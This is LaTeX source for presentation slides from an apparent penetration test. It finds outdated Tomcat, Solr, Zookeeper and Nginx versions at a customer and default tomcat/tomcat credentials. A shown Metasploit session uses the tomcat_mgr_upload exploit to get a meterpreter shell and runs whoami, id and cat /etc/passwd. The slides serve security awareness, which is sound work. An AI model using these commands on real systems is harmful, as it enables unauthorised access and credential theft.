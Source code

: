 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list2}
\item Well-known and used in many places to deploy Java applications, great
\item There are no default user, great
\end{list2}

Wait, why does this customer in Januart 2022 have a running version 7.0.68 with user tomcat/tomcat.

This version is from 2016 - so about 7-8 years old!


Same customer as before. Following software was identified
\begin{list2}
\item Apache Solr 4.10.1 was identified\\
According to the official web site for this software it was released in 2014! Release 4.10.1 [2014-09-28]
\item Zookeeper 3.4.10-39d3a4f269333c922ed3db283be479f9deacaa0f (Built on 03/23/2017)
\item WEBrick httpd 1.3.1 (Ruby 2.4.3 (2017-12-14))
\item Nginx 1.10.3 old and Nginx 10.15.10 release in 2019
Since some are from 2017 we consider the software outdated.
\end{list2}




\begin{alltt}\scriptsize
msf > use exploit/multi/http/tomcat_mgr_upload

meterpreter > sysinfo
Computer    : solr4-prod-xxxxx.internal
OS          : Linux 4.15.0-1098-gcp (amd64)
Meterpreter : java/linux
meterpreter > shell
Process 1 created.
Channel 1 created.

whoami
tomcat7

id
uid=114(tomcat7) gid=118(tomcat7) groups=118(tomcat7)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{alltt}

\begin{list2}
    \item Gooooddammmit! Its easy being a hacker I used ready made Metasploit, tomcat modules and deployed my own application that allowed command line access to the server.

\end{list2}
\end{document}
